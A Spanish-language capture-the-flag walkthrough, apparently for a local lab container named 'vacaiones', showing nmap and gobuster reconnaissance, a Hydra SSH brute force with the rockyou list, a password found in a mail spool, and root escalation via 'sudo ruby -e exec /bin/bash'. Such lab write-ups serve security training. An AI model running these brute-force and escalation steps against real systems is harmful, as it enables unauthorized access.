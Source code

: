 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh vacaiones.tar
```

![Pasted image 20250129185403](https://github.com/user-attachments/assets/8b9bca24-1701-4956-91bd-297db9054bc6)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129185423](https://github.com/user-attachments/assets/849e4049-3b9a-4f82-88d7-38ea2af76aed)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129185545](https://github.com/user-attachments/assets/48766e6e-d8a2-4afd-96b9-c3a629c1f8e8)

Nos metemos en los directorios:

![Pasted image 20250129185715](https://github.com/user-attachments/assets/c8fa990f-ef5a-4cb1-b9e8-5ad8efad6b11)

```Bash
cntrl + u
```

![Pasted image 20250129185818](https://github.com/user-attachments/assets/544fc2c4-3c48-4a87-a7e3-151fce991f49)

Nos da un usuario (Camilo)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250129190053](https://github.com/user-attachments/assets/9f0b1cc8-9d80-4ac4-ab36-ff021557ee95)

Nos conectamos con SSH:

```Bash
ssh camilo@172.17.0.2
```

![Pasted image 20250129190547](https://github.com/user-attachments/assets/71f52863-5ef2-4f69-bd49-47e2e5d142f2)

```Bash
/bin/bash -i
```

![Pasted image 20250129190824](https://github.com/user-attachments/assets/59e558c3-caf4-4ebf-b604-6fb64cb66d67)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129190912](https://github.com/user-attachments/assets/9f58b198-9aee-4ddb-981f-80635b5834e4)

```Bash
find / -perm /4000 2>/dev/null
```

![Pasted image 20250129191753](https://github.com/user-attachments/assets/7db941a9-5ee5-44e8-b2ee-54532d0f92ed)

No podemos.

Nos vamos a la dirección donde se guardan los mail:

```Bash
cd /var/mail/camilo
```

![Pasted image 20250129192332](https://github.com/user-attachments/assets/fd1c209e-88cf-4d3c-894c-8dc4e58e9536)

(A veces se guardan aquí también)

```Bash
cd /var/spool/mail/camilo
```

```Bash
ls
```

![Pasted image 20250129192510](https://github.com/user-attachments/assets/7e579e22-d172-448f-8334-28e5e242616d)

```Bash
cat correo.txt
```

![Pasted image 20250129192543](https://github.com/user-attachments/assets/53e2a526-789a-44d6-8b17-f9910191f62a)

juan: 2k84dicb

Nos conectamos con SSH:

```Bash
ssh juan@172.17.0.2
```

![Pasted image 20250129192647](https://github.com/user-attachments/assets/6ce006c2-b9f7-44ca-a53b-5922ba04be3a)

```Bash
/bin/bash -i
```

![Pasted image 20250129192815](https://github.com/user-attachments/assets/de97ab71-2249-4ddd-a161-5449702f5d35)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129192913](https://github.com/user-attachments/assets/5f66a973-8cf6-4378-86c2-763c7d27befb)

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![Pasted image 20250129193159](https://github.com/user-attachments/assets/76ae791c-0574-4b02-b2b7-ce8e9ce9ff99)

```Bash
whoami
```

![Pasted image 20250129193213](https://github.com/user-attachments/assets/32dcc17b-d657-48cc-a70a-f2672a847a90)
